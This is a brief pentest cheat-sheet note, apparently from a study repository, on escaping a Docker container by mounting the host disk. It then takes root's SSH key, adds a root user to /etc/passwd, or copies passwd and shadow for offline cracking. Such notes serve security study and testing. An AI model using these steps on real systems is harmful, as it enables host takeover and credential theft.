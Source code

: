# Docker 
----------


## Container Escape
- Check for sd disks in /dev using linpeas or deepce or the command mount
- Mount the file system sda1 (as root)
```bash
mkdir /mnt/sda2
mount /dev/sda2 /mnt/sda2
ls /mnt/sda2 #copies over the entire file system
```

Get the id_rsa of the root and ssh into the machine.
Or add a new user with root privileges to /etc/passwd 
Or copy over etc/passwd and shadow to crack it locally

